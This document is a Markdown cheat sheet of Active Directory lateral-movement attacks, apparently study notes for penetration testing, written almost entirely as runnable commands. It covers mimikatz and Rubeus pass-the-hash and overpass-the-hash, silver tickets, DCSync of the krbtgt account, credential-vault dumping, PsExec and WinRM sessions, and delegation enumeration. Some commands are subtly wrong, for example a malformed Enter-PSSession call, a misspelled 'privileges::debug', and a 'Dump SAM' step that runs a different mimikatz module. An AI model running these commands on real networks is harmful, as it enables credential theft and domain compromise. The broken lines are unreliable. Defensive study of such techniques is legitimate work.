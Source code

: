 
# Lateral Movement

## Establishing Remote Sessions on Network

Connect to a machine using Powershell Remoting:

```
$sess = New-PSSession -ComputerName test-srv
Enter-PSSession -$sess
```

Connect to a machine using Winrs:

```
winrs -r:test-srv cmd
```

## Pass The Hash

Get a session via mimikatz.exe (of any domain user).

```
mimikatz.exe
privilege::debug
sekurlsa::pth /user:domainadmin /domain:test.com /ntlm:6366243a657a4ea04e406f1abc27f1
```

## Overpass The Hash

Get a session with Domain Privileges (hash of a domain admin is required).

```
C:\AD\test\Rubeus.exe asktgt /user:domainadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

## Derivative Local Admin

Find derivative local admin access.

```
. C:\AD\test\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```

## Silver Ticket

Execute Silver ticket attack using Mimikatz.

```
mimikatz.exe
privilege::debug
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:test.com /ptt /target:test.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:domainadmin
```

Execute Silver ticket attack using BetterSafetyKatz.

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:domainadmin /domain:test.com /sid:S-1-5-21-719815819-3726368948-3917688648 /target:test.corp.com /service:RPCSS /rc4:1be12164a06b817e834eb437dc8f581c /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

## PsExec

Execute a process remotely using PsExec.

```
PsExec64.exe cmd \\test.tech.com
```

## DCSync

Execute DCSync attack via SafetyKatz.exe.

```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:test\krbtgt" "exit"
```

Execute DCSync attack via mimikatz.exe.

```
privileges::debug
lsadump::dcsync /user:test\krbtgt
```

## Credentials Vault

Dump credentials vault with SafetyKatz.exe.

```
C:\AD\Tools\SafetyKatz.exe "token::elevate" "vault::cred /patch" "exit"
```

## Dump SAM Hashes

Dump SAM of local machine via mimikatz.exe

```
SafetyKatz.exe "sekurlsa::ekeys" "exit"
```

## WMI

Execute WMI quries.

```
gwmi -class win32_operatingsystem -ComputerName test-dc
```

## Delegation

### UnConstrained Delegation

Identify Computer Objects where Unconstrained Delegation is allowed.

```
Get-NetComputer -Unconstrained
```

### Constrained Delegation

Identify the user and computer account having constrained delegation enabled.

```
Get-NetUser -TrustedToAuth | select cn, samaccountname, msds-allowedtodelegateto
Get-NetComputer -TrustedToAuth
```
